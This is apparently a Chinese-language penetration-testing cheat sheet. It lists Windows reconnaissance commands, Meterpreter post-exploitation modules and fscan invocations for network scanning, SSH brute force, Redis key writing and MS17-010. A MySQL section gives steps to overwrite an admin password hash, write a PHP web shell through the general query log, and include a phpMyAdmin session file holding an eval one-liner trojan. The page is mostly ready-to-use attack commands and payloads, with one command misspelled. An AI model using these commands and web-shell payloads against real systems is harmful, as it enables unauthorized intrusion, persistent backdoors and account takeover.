 windows信息收集进阶  

```
sc query WinDefend # 检查是否存在杀软windows defender

```

  
windows信息收集之msf  

```
meterpreter > run post/windows/gather/enum_applications # 枚举已安装的软件
meterpreter > run post/windows/gather/enum_firewall # 检查防火墙状态
meterpreter > run post/windows/gather/enum_services # 枚举所有服务

```

  
fscan  

```
cd fscan//进入fscan文件夹

# 执行在windows下为fscan.exe,linux下为./fscan

# 例如
./fscan -h 192.168.101.1/24# 启动fscan并扫描网段

fscan.exe -h 192.168.x.x # 默认使用全部模块
fscan.exe -h 192.168.x.x -rf id_rsa.pub # redis 写私钥
fscan.exe -h 192.168.x.x -c whoami # ssh爆破成功后，命令执行
fscan.exe -h 192.168.x.x -m ms17010 # 指定模块
fscan.exe -h 192.168.x.x -m ssh -p 2222# 指定模块ssh和端口
fscan.exe -h 192.168.x.x -h 192.168.1.1/24# C段
fscan.exe -h 192.168.x.x -h 192.168.1.1/16# B段
fscan.exe -h 192.168.x.x -h 192.168.1.1/8# A段的192.x.x.1和192.x.x.254,方便快速查看网段信息
fscan.exe -h 192.168.x.x -hf ip.txt # 以文件导入

```

  
其他持续更新中。。。然后这抓大鹅好玩呀，我是过不了第二关，我菜死了55555....睡不着  
  
### 2、MYSQL相关  

```
# 常用报错
mysql -uwordpress -pWordPressISBest -h 172.18.0.2 --skip-ssl
mysql -h10.233.117.225 -P3306 -uroot -p --ssl-mode=DISABLED

# sql语句
update tblUsers set pwd='e10adc3949ba59abbe56e057f20f883e' where login='admin';

# sql信息收集以及利用方法
SHOW VARIABLES LIKE 'secure_file_priv';  # 是否允许向外部写入文件
# 接下来就向外部写文件

# 通过修改日志文件路径，来构造一句话马
SHOW VARIABLES LIKE 'general_log_file';  # 显示mysql日志文件路径，执行过的命令的文件路径
set global general_log=on; # 开启查询日志
set global general_log_file='D:\\\\phpstudy\\www\\shell.php'; # 设置查询日志存储路径
select '<?php phpinfo();?>'; # 查询一句话
set golbal general_log=off;  # 最后关闭查询日志

# phpmyadmin包含session文件
# 1、首先创建一张表。2、写入一个字段为一句话木马 <?php @eval($_GET['123']);?>
http://10.10.10.131:2003/index.php?target=db_sql.php%253f/../../../../../../tmp/sess_3cfb6084f034677df82ef00120cce4fd

```